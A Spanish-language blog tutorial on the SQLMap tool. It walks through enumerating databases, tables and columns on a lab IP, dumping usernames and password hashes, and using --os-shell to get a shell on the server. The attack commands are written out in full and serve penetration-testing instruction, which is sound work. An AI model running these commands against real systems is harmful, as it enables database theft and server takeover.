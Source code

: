 ```yaml
---
title: SQLMap
date: 2023-09-20
categories: [Linux, Cajón de Herramientas]
tags: [SQLMap]
image:
  path: ../../assets/img/Linux/CajonHerramientas/sqlMap.png
  width: 528
  height: 340
  alt: Banner SQLMap
---
```


Explicaré el uso básico de la herramienta SQLMap, herramienta para el descubrimiento automatizado de inyecciones SQL.

## Ejemplo de uso.

Es bastante fácil su uso, al menos el uso básico para descubrir inyecciones. Buscaremos inyecciones en la web de la ip `10.10.15.15`.
```sh
> sqlmap -u 'http://10.10.15.15/dashboard.php?id=1' --dbs --dbms mysql --batch

# Pones la url donde quieras probar la inyección.
# --dbs para averiguar las bases de datos
# --dbms para indicar la base de datos si la sabes. Si no la supieras lo quitas y te prueba unas cuantas.
# --batch para que no os pregunte cosas en la ejecución del sqlmap, se ejecutará por defecto.
# Si hiciera falta estar autenticado valdría con añadir la cookie por ejemplo así: --cookie "PHPSESSID=COOKIEAQUI"
```
Como resultado nos sacaría varias bases de datos, una de ellas es "ozone", saquemos ahora las tablas de esta base de datos:
```sh
> sqlmap -u 'http://10.10.15.15/dashboard.php?id=1' --dbms mysql --batch -D ozone --tables
# -D para indicar la base de datos.
# --tables para averiguar las tablas.
```
De resultado obtenemos la tabla "users", ahora sacaremos las columas de la tabla:
```sh
> sqlmap -u 'http://10.10.15.15/dashboard.php?id=1' --dbms mysql --batch -D ozone -T users --columns
# --columns para dumpear las columnas.
```
Nos saca las columnas username y password. Ahora dumpeamos usuarios y contraseñas:
```sh
> sqlmap -u 'http://10.10.15.15/dashboard.php?id=1' --dbms mysql --batch -D ozone - T users -C username,password --dump
``` 
Y sacaríamos las usuarios y contraseñas, seguramente en formato hash que habría que desencriptar.

## Parámetros interesantes en SQLMap

--os-shell: Te intenta mandar una consola interactiva.  
¿Cómo lo hace?. Seguramente intenta subir un archivo ejecutable, por ejemplo un php con el uso de **into outfile** y luego lo intentará cargar.
```sh
> sqlmap -u 'http://10.10.15.15/dashboard.php?id=1' --os-shell --batch 
# Y quien sabe, si tenemos permisos para la escritura, para subir archivos, podría funcionar.
```
--risk: Nivel de riesgo en las inyecciones. Tipo de consultas más compleja, nivel 3 es el máximo. Contrastar información esta parte.
--level: Nivel de profundidad: Busca inyecciones en más puntos -inyections points- como cabezeras y cookies, y también prueba un mayor número de inyecciones.
```sh
> sqlmap -u 'http://10.10.15.15/dashboard.php?id=1' --dbms mysql --risk 3 --level 4
```

Normalmente la data de las inyecciones a una url dada se guarda, si quisieras empezar de cero las inyecciones o simplemente eliminarla puedes hacer:
```sh
> rm -rf /root/.local/share/sqlmap/output/IP_QUESEA
```

